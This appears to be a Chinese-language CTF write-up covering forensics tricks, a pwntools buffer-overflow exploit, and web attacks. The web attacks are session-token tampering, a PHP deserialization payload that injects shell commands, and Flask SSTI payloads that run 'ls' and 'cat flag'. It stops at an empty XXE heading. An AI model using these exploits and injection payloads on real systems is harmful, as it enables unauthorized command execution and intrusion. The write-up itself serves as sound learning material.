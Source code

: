 # MyFirstCTF

隨意紀錄一下比賽學到的知識與技巧，只紀錄印象較深刻的題目

## forensic

原圖放在forensic目錄

### 0x01

有一張用binwalk看一下 發現圖片中有另外一張圖片

> dd if=`input_file` of=`output_file` skip=`offset_size` bs=1

即可拿到圖片

### 0x02

用mac看來看去看不出端倪 結果用windoes 右鍵內容 flag藏在註解裡面

### 0x03

pdf裡面藏白色文字 全選起來用editor解答

## Pwn

### 0x01 (BOF)

有一點久沒寫exploits生疏了 這題順便紀錄一下

先用gdb info func

看到一個可疑函式 位置在`0x004006b6`

利用BOF讓ret跳轉到0x004006b6


![bof](https://i.imgur.com/vLsNCR9.png)

```python
from pwn import *

r = remote('140.110.112.29',2114)

print(r.recvline())

playload = "A"*56 + p64(0x004006b6)

r.send(playload)

r.interactive()

```


### 0x02 (math)

要在60秒內解完100題數學題 簡單的考你會不會寫程式跟使用pwntools而已

```python

from pwn import *
r = remote('140.110.112.29',5119)
r.recvline() #Can you help us?
r.recvline()


print(r.recvline())

for i in range(100):
	print(r.recvline())

	s = r.recvline()

	one = s.split('?')
	print(one)
	two = one[1].split('=')
	print(two)

	if(int(one[0]) + int(two[0]) == int(two[1])):
		print('+')
		r.sendline('+')
	elif(int(one[0]) - int(two[0]) == int(two[1])):
		print('-')
		r.sendline('-')
	elif(int(one[0]) * int(two[0]) == int(two[1])):
		print('*')
		r.sendline('*')

print(r.recvline())

```

## Web

### 0x01 (session)

用brup抓包

觀察提示的使用者 clara 的封包

=PZge c JryZ l TvNv a Fbgs r eBYt a

只是使用者名稱混雜一些字元

於是把clara的部分admin即可

改完後 `=PZgeaJryZdTvNvmFbgsieBYtn`

requestt出去就拿到flag了

### 0x02 (serialize)

將`__wakeup`中的this改成想要執行的指令(wakup函式在反序列化時一定會執行)

```php
<?php

class MyFirstCTF {
    protected $test = "CTF";
    function __wakeup()
    {
        // print "Wake up yo!<br>";
        // system("echo ".$this->test);
    }
}
$obj = new MyFirstCTF();
$obj->test=";ls";
$ser = serialize($obj);

printf($ser);


// $input = $_GET['str'];
// $kb = unserialize($input);
?>
```
print出來的字串是`O:10:"MyFirstCTF":1:{s:4:"test";s:3:";ls";}`

但是丟出去之後沒反應

猜測應該是protected的關係

[參考這篇文章](https://www.cnblogs.com/Mrsm1th/p/6835592.html)

所以要加 `\00*\00` 並且加上3(長度) 變成 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:3:";ls";}`

噴出 `Th1s_1S_f1ag__________________y0 index.html index.php`

再丟一波 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:37:";cat Th1s_1S_f1ag__________________y0";}`

解答

文章重點

不同類型變數序列化的值不一樣 但是看起來沒差 以protected 因為是null byte 所以要自己加 '\00*\00' 長度多3
```
private的参数被反序列化后变成 \00test\00test1 
public的参数变成 test2   p
rotected的参数变成 \00*\00test3 
```

### 0x03 (SSTI)

從網頁完全看不出是GET哪個變數

看了幾篇教學是用name當範例

於是

140.110.112.29:1008?name=123

結果有反應(通靈ㄏㄏ)

先確定是用{{}}來印出變數 (每一種模板不同)

140.110.112.29:1008/?name={{7*7}}

140.110.112.29:1008?name={{request.environ}}

發現是flask

於是

http://140.110.112.29:1008/?name={{ config['RUNCMD']('ls -alh',shell=True) }}

http://140.110.112.29:1008/?name={{ config['RUNCMD']('cat flag',shell=True) }}

[參考文章](https://hellohxk.com/blog/ssti/)

### 0x04 (XXE)
